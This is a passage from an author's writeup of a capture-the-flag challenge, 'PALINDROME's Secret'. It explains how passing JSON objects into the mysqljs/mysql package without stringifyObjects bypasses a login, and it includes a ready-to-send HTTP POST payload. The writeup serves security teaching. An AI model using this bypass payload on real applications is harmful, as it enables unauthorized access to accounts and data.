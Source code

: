 # Level 5B - PALINDROME's Secret (Author Writeup)

Hey, this is my challenge! I was slightly pressed for time when coming up with this challenge so it definitely wasn't as long and elaborate as some of the later stages, but I'm happy with how it turned out. Hope everyone had fun!

You can find the challenge files here.

{% embed url="https://github.com/zeyu2001/My-CTF-Challenges/tree/main/TISC-2022" %}

## Description

> We have discovered PALINDROME's secret portal, but we can't seem to gain access. Thankfully, we managed to steal the source code - can you take a look?\
> \
> Gaining access to the portal and stealing the PALINDROME admin's access token will greatly aid our efforts to curb PALINDROME's ongoing attack.\
> \
> http://chal010yo0os7fxmu2rhdrybsdiwsdqxgjdfuh.ctf.sg:23627/index\
> \
> \*NOTE\*: Solving this challenge unlocks level 6!

{% file src="../../.gitbook/assets/palindrome-secret-distrib.zip" %}

## Solution

### Part 1 - Gaining Access

Upon inspection of the source code, we will quickly discover that the first thing we need to do is to bypass the login, since all other endpoints are protected by `authenticationMiddleware`.

We see that the `mysqljs/mysql` package is used _without_ the `stringifyObjects: true` option:

```javascript
const db = mysql.createConnection({
    host     : 'db',
    user     : 'web',
    password : process.env.MYSQL_PASSWORD,
    database : 'palindrome'
});
```

While the email and password values are expected to be strings, the use of `express.json()` allows `Object` and `Array` types to be given as `req.body.email` and `req.body.password`.

This causes [unexpected behaviour](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4) when constructing SQL queries.

For instance, POST-ing the following JSON to `/login`:

```http
POST /login HTTP/1.1
Host: localhost
Content-Length: 97
Content-Type: application/json

{
    "email": {
        "email": 1
    },
    "password": {
        "password": 1
    }
}
```
